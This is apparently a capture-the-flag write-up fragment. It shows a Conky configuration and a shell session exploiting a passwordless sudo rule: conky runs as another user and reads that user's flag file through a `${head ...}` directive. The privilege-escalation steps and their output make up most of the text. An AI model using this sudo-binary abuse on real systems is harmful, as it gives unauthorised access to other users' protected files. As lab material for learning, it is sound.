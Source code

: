 ```config
conky.text = [[
${color grey}Info:$color ${scroll 32 Conky $conky_version - $sysname $nodename $kernel $machine}
$hr
${color grey}Uptime:$color $uptime
${color grey}Frequency (in MHz):$color $freq
${color grey}Frequency (in GHz):$color $freq_g
${color grey}RAM Usage:$color $mem/$memmax - $memperc% ${membar 4}
${color grey}Swap Usage:$color $swap/$swapmax - $swapperc% ${swapbar 4}
${color grey}CPU Usage:$color $cpu% ${cpubar 4}
${color grey}Processes:$color $processes  ${color grey}Running:$color $running_processes
$hr
${color grey}File systems:
 / $color${fs_used /}/${fs_size /} ${fs_bar 6 /}
${color grey}Networking:
Up:$color ${upspeed} ${color grey} - Down:$color ${downspeed}
$hr
${color grey}Name              PID     CPU%   MEM%
${color lightgrey} ${top name 1} ${top pid 1} ${top cpu 1} ${top mem 1}
${color lightgrey} ${top name 2} ${top pid 2} ${top cpu 2} ${top mem 2}
${color lightgrey} ${top name 3} ${top pid 3} ${top cpu 3} ${top mem 3}
${color lightgrey} ${top name 4} ${top pid 4} ${top cpu 4} ${top mem 4}

${head /pwned/pallas/flagz.txt 30}
]]
```

```shell title="Exploit it"
nyx@hades:~$ sudo -l
Matching Defaults entries for nyx on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nyx may run the following commands on hades:
    (pallas) NOPASSWD: /usr/bin/conky
nyx@hades:~$ nano /var/tmp/tessssssst-conky.conf
nyx@hades:~$ sudo -u pallas /usr/bin/conky -c /var/tmp/tessssssst-conky.conf
conky: drawing to single buffer
conky: invalid setting of type 'table'
Info:
Uptime: 193d 23h 55m
Frequency (in MHz): 2400
Frequency (in GHz): 2.40
RAM Usage: 1.01GiB/1.94GiB - 52% #####.....
Swap Usage: 0B/0B - 0% ..........
CPU Usage: 6% #.........
Processes: 106  Running: 0
File systems:
 / 8.75GiB/18.8GiB #####.....
Networking:
Up: 0B  - Down: 0B
Name              PID     CPU%   MEM%
 bash             4185872   0.00   0.13
 bash             4185829   0.00   0.18
 script           4185828   0.00   0.05
 sh               4185827   0.00   0.04
^irzKewMCfnhnIMTCJlW^
```
